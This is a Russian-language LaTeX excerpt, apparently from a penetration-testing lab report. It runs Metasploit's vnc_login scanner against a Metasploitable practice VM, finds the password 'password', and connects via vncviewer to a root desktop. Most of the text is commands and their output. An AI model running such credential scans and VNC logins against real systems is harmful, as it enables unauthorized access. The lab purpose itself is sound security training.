 \documentclass[10pt,a4paper,titlepage]{article}
\begin{document}
Запустим данный модуль, установим параметру RHOSTS адрес атакуемой машины, после чего выполним команду exploit.
\begin{verbatim}
msf > use auxiliary/scanner/vnc/vnc_login
msf auxiliary(vnc_login) > set RHOSTS 192.168.226.134
RHOSTS => 192.168.226.134
msf auxiliary(vnc_login) > exploit

[*] 192.168.226.134:5900 - Starting VNC login sweep
[+] 192.168.226.134:5900 - LOGIN SUCCESSFUL: :password
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
\end{verbatim}
Видно, что удалось успешно подключиться с паролем password. Запустим клиент VNC с указанным паролем.
\begin{verbatim}
msf auxiliary(vnc_login) > back
msf > vncviewer 192.168.226.134:5900
[*] exec: vncviewer 192.168.226.134:5900

Connected to RFB server, using protocol version 3.3
Performing standard VNC authentication
Password: 
Authentication successful
Desktop name "root's X desktop (metasploitable:0)"
VNC server default format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
\end{verbatim}
Подключение удалось успешно осуществить и получить доступ к консоли, резульатат показан на рисунке (рис.\ref{ris:image8}).
\begin{figure}[h]	
\caption{Подключение к VNC-серверу}
\label{ris:image8}
\end{figure}
\end{document}
